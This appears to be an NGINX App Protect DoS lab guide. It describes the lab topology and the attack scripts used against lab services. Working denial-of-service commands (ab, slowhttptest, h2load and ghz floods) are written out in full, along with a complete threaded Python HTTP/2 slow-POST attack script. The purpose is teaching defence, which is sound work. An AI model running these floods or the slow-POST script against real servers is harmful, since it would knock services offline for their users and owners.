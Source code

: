 NGINX App Protect DoS
=====================

The remainder of this lab will familiarize you with Denial of Service attacks and help you protect HTTP and gRPC services against them using NGINX App Protect Denial of Service.

You will accomplish the following as part of this lab:

#. Attack and take down an unprotected HTTP Service
#. Install and configure NGINX App Protect DoS 
#. Teach NGINX App Protect DoS about legitimate traffic to establish baseline
#. Protect HTTP services from Flood and Slow Loris attacks
#. Protect gRPC services from Flood and Slow Loris attacks
#. Observe and monitor attacks from NAP DoS metrics pulled into an ELK Stack (Elastic Search, Logstash, Kibana)
#. Monitor live activity with the built-in NGINX App Protect DoS Dashboard

Topology
========

The remainder of this lab will use VMs in your existing deployment that we have not interacted with so far. They are:

Clients
    - Legitimate Traffic -- Contains scripts to act as legitimate client traffic -- 10.1.1.11
    - Attack Traffic Generator -- Contains scripts for DoS attacks to act as bad actor client traffic -- 10.1.1.16
Load Balancers
    - NGINX LB -- L4 edge load balancer that distributes traffic between two NGINX App Protect DoS instances and appropriate internal ports -- 10.1.1.17
    - NAP DoS 1 -- first L7 load balancer that maps internal ports to backend services -- 10.1.1.15
    - NAP DoS 2 -- second L7 load balancer that maps internal ports to backend services -- 10.1.1.14
    - Arbitrator --  Orchestrates multiple NGINX App Protect DoS instances to sync attack starts and stops -- 10.1.1.13
Backends
    - JuiceShop -- Sample eCommerce site to serve as a generic backend application -- 10.1.1.19
    - gRPC Application -- "RouteGuide" gRPC service running in a container environment -- 10.1.1.18
Monitoring
    - ELK -- containerized ELK stack pre-configured to monitor NGINX App Protect DoS instances -- 10.1.1.20

.. image:: ../_static/10putty.png


Attack Scripts
==============
All attack scripts are located in ``/scripts`` folder on the "Attacker" VM.

HTTP/1 Flood Attack -- ``/scripts/http1flood.sh``
    - A type of DoS attack in which the attacker manipulates HTTP and sends unwanted requests in order to attack a web server or application.
    - Instead of using malformed packets, spoofing and reflection techniques, HTTP floods require less bandwidth to attack the targeted servers.
    - Typically will target the most resource intensive endpoints on the service.  
    - ``ab -l -r -n 20000000 -c 10000 -d -s 120 http://10.1.1.17:600/`` 
    - This attack uses Apache Benchmark (ab) to send 20 million requests with 10k concurrent connections w/ 120 second timeout looped indefinitely.
    
Slow POST HTTP Attack (Slow Loris) -- ``/scripts/slow_post_http1.sh``
    - A type of attack that relies on the fact that the HTTP protocol, by design, requires requests to be completely received by the server before they are processed.
    - Sends a legitimate POST header with a ``Content-Length`` header specifying the size of the message body.
    - Attacker sends the actual message body at a slow rate or not at all.
    - Attacker then opens thousands of such connections exhausting the logical resources for concurrent connections rather than bandwidth or processing power, allowing the attacker to efficently take out a web server.
    - ``slowhttptest -c 50000 -B -g -o my_body_stats -l 600 -i 5 -r 1000 -s 8192 -u http://10.1.1.17:600/api/Feedbacks/ -x 10 -p 3``
    - 50k connections with 5 second delay in message body for 600 seconds, 1k connections per second, 8192 byte Content-Length header, 10 byte follow-up data, 3 second timeout for HTTP response on probe connection.  Sends delayed POST request in message body to /api/Feedbacks/ endpoint on JuiceShop service.
    
HTTP/2 Flood Attack -- ``/scripts/http2flood.sh``
    - Like the HTTP 1 Flood Attack, but this uses the HTTP/2 protocol.
    - gRPC uses HTTP/2 under the hood so we are targeting the gRPC endpoint with a simple HTTP/2 flood attack.
    - ``h2load -n 10000 -c 1000 http://10.1.1.17:500/routeguide.RouteGuide/GetFeature``
    - Uses h2load to launch an attack using 10000 requests with 1000 clients on the "RouteGuide" gRPC service.

gRPC Message Flood Attack -- ``/scripts/grpcflood.sh``
    - Increasingly, we have seen more DoS attacks using HTTP and HTTP/2 requests or API calls to attack at the application layer (Layer 7), in large part because Layer 7 attacks can bypass traditional defenses that are not designed to defend modern application architectures.
    - Detecting DoS attacks on gRPC applications is extremely hard, especially in modern environments where scaling out is performed automatically. A gRPC service may not be designed to handle high‑volume traffic which makes it an easy target for attackers to take down.
    - Based on statistical anomaly detection, NGINX App Protect DoS successfully identifies bad actors by source IP address and TLS fingerprints, enabling it to generate and deploy dynamic signatures that automatically identify and mitigate these specific patterns of attack traffic. This approach is unlike traditional DoS solutions on the market that detect when a volumetric threshold is exceeded. 
    - ``ghz --insecure -c 10000  -n 100000 -t 2s -z 2s --import-paths ./routeguide --proto route_guide.proto --call routeguide.RouteGuide.GetFeature 10.1.1.17:500``
    - Launch the ghz gRPC benchmarking tool against the “RouteGuide” GRPC service using 10000 request workers with 100000 requests, with a timeout and duration of 2 seconds.

Slow POST gRPC Attack -- ``/scripts/slow_post_http2.sh``
    - The attacker supplies several concurrent slow POST gRPC requests that exceed the server capacity of concurrent requests.
    - This attack sends 100 streams of a POST request to /testing using gRPC

.. code-block:: bash
    :caption: slow_post_http2.sh

    #!/bin/bash
    function int_handler {
        pkill -9 -e python
        exit
    }

    trap int_handler INT

    while true; do
        python slow_post.py  > /dev/null 2>&1 &
        sleep 20
        pkill -9 -e python
    done

Python script referenced by the shell script:

.. code-block:: python
    :caption: slow_post.py

    import ssl
    import socket
    from time import sleep
    from threading import Thread

    def do_attack():
        connection_preface = "PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n"

        # Settings Frame
        settings_frame = "000018040000000000000400ffffff000200000001000300007d00000500004000"
        settings_ack = "000000040100000000"

        # Headers frame sending a POST request to /testing with content-length of 999999999 and end_stream flag set to false
        headers_frame = "00001d0104000000018744866125424d54df834188081713415c2b85cf5c877df7df7df7df7f"

        # Data frame containing a single "A" character as payload
        data_frame = "00000100000000000141"

        connection_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connection_socket = ssl.wrap_socket(connection_socket)
        connection_socket.context.set_ciphers('AES128-GCM-SHA256')
        connection_socket.context.set_alpn_protocols(['h2'])
        connection_socket.connect(('10.1.1.17', 443))
        connection_socket.send(connection_preface)
        connection_socket.send(settings_frame.decode('hex'))
        connection_socket.send(settings_ack.decode('hex'))

        # Open 100 streams (MAXIMUM_CONCURRENT_STREAMS received from Apache) by sending header frames
        for i in range(1, 200):
            if i % 2 == 0:
                continue
            headers_frame = headers_frame.replace(headers_frame[10:18],str(i).zfill(8))
            connection_socket.send(headers_frame.decode('hex'))

        while True:
            for i in range(1, 200):
                if i % 2 == 0:
                    continue
                data_frame = data_frame.replace(data_frame[10:18], str(i).zfill(8))
                connection_socket.send(data_frame.decode('hex'))
            sleep(20)

    if __name__ == '__main__':
        for i in range(2000):
            attack_thread = Thread(target=do_attack)
            attack_thread.start()
    

